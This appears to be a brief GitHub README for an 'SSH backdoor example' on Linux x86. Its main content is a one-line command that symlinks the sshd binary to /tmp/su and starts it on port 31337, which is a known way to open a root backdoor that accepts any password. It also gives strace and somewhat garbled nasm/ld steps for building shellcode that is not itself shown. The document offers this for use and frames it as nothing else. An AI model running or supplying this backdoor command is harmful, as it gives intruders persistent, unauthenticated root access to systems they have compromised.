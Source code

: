 # sshd-backdoor-example- linux-x86
SSH Backdoor example !

## Compile ASM
strace -e execve,symlink ./a.out 
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337;

OR $nasm -f elf shellcode.c and ld -s -o shellcode shellcode.o
